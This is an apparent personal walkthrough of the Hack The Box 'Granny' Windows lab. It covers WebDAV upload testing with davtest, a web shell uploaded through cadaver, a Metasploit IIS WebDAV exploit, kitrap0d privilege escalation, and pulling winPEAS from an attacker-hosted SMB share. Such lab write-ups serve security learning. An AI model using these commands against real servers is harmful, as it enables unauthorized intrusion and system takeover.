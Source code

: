 Box: Windows
Level: Easy
### Index
1. WebDAV Exploitation 
2. Cadaver - WebDav client for Linux
3. davtest - Command line utility to check if you're allowed to upload file using PUT/Move Method. Uploads random files 
4. local_exploit_Suggester.
5. winPEAS.bat transfer to target. 
6. Python to start the FTP server


Following HTTP Methods were supported
```
http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
```

The IIS Server has the WebDev enabled as per nmap 
```
http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path>
```

Now Here are couple of lessons that I have learned. Running local_exploit_suggester gives me couple of exploits that might work however, none of them were worked. I tried winPEAS.bat and didn't find a proper path to privilege escalation. During the nmap enumeration, I found the following thing enabled on the box.

```
_http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path
```

WebDAV was ENABLED. I used the following two tools to check whether I am allowed to upload on the target.
```
$ davtest -move -sendbd auto -url http://granny.htb/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://granny.htb
********************************************************
NOTE    Random string for this session: f4my2eP
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://granny.htb/DavTestDir_f4my2eP
********************************************************
 Sending test files (MOVE method)
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_jsp.txt
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp;.txt
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_html.txt
MOVE    html    SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.html
^C
```

Following to this, I used the 'cadaver'  which is a command line WebDav client for Linux to put the Shell.aspx 
```
cadaver http://granny.htb/
dav:/DavTestDir_f4my2eP/> put shell2.aspx 
Uploading shell2.aspx to `/DavTestDir_f4my2eP/shell2.aspx':
Progress: [=============================>] 100.0% of 3015 bytes failed:
```

I got the reverse shell by visiting the http://granny.htb/DavTestDir_f4my2eP/shell2.aspx. NetCat Listener was started. Now I did the same thing with msfconsole. 
```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOST 10.10.10.15
set LHOST 10.10.16.5
exploit

meterpreter>shell
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

From here, I had to reset this machine 3 times to use the local_exploit_suggester. I got the following suggestion from the local exploit suggester.
```
1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

Out of which I used exploit/windows/local/ms10_015_kitrap0d to get the system shell.

At one point, I was struggling with transferring the winPEAS.exe (EXE File) onto the target server. I tried the impacket-smbserver.

```
On my kali
impacket-smbserver a /home/ringbuffer/Downloads/Granny.htb 

On the target
c:\windows\temp>copy \\10.10.16.5\a\winPEAS.exe c:\windows\temp  #This might be the wrong format of the command. Because I note it down after I closed the tab :P
```

I used the python FTP server as well. The python's pyftpdlib library was used.

```
python -m pyftpdlib -p 21
```
